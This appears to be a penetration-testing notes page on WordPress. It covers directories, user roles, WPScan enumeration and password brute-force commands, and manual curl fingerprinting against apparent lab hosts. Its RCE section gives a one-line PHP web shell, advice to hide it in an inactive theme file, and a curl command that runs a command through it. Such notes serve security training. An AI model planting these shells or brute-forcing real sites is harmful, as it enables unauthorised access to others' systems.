

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---

# WordPress

## General Information

### Directories

* `/wp-admin` -> `/wp-login.php`
* `/wp-content/plugins/`
* `/wp-content/themes/`

### Roles & Permissions

<table><thead><tr><th width="192">Role</th><th>Permissions</th></tr></thead><tbody><tr><td>Administrator</td><td>King!</td></tr><tr><td>Editor</td><td>Post management + publish (for all users)</td></tr><tr><td>Author</td><td>Post management + publish (owned posts)</td></tr><tr><td>Contributor</td><td>Post management (owned posts)</td></tr><tr><td>Subscriber</td><td>Browse posts, manage its own profile</td></tr></tbody></table>

## WPScan

> For vulnerability scanning a token is needed from [WPScan](https://wpscan.com/).



```bash
wpscan --update
```



```bash
sudo wpscan --url example.com --enumerate --api-token <TOKEN>
```



<pre class="language-bash"><code class="lang-bash"><strong>sudo wpscan --url example.com -e u --passwords password.lst
</strong></code></pre>



<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>sudo wpscan --url example.com --enumerate --api-token &#x3C;TOKEN> --random-user-agent
</strong></code></pre>



WPScan uses 2 kinds of BFA:

1. [xmlrpc](https://kinsta.com/blog/xmlrpc-php/) -> uses WP's API to BF (`xmlrpc.php`) (this is faster)
2. wp-login -> attempts to BF `wp-login.php`


WPScan's GitHub repository.



Wiki page for WPScan.


## Manual



```bash
curl -s http://blog.inlanefreight.local | grep '<meta name="generator"'
```



```bash
curl -s http://blog.inlanefreight.local/ | grep themes
```



```bash
curl -s http://blog.inlanefreight.local/ | grep plugins
```




```bash
curl -s http://ir.inlanefreight.local/wp-content/plugins/mail-masta/readme.txt | grep "Stable tag:"
```




\*_Plugin version enumeration_ r_equires Directory listing to be enabled._

## RCE

A simple PHP web shell (obfuscate the file name).&#x20;

```php
<?php system($_GET['c']); ?>
```

Modify a less-used file of an inactive theme for avoiding breaking the site.

<figure><figcaption><p>Step for RCE after gaining admin access.</p></figcaption></figure>

Interact with the shell via CLI.

```bash
curl http://ir.inlanefreight.local/wp-content/themes/twentytwenty/404.php?c=id
```
